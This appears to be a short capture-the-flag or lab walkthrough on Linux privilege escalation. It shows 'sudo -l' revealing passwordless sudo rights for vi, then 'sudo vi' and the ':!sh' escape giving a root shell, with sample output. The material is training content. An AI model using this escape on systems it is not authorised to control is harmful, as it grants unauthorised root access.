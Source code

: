 **Sample Output:**

```
Welcome to Linux Lite 4.4 user8
Thursday 14 May 2020, 17:00:17
Memory Usage: 321/983MB (32.66%)
Disk Usage: 6/217GB (3%)
```

### Q2. Let’s use the `sudo -l` command. What does this user require (or not require) to run vi as root?

**Hint:** No password!

#### Action

List the sudo privileges:

```bash
sudo -l
```

**Sample Output:**

```
User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
```

We can run `vi` with sudo without a password.

**Ans:** NOPASSWD

### Q3. So, all we need to do is open `vi` as root by typing `sudo vi` into the terminal.

#### Action

Open `vi` with sudo:

```bash
sudo vi
```

### Q4. Now, type `:!sh` to open a shell!

#### Action

Inside `vi`, type the following command to escape to a shell:

```
:!sh
```

**Sample Output:**

```
# whoami
root
```
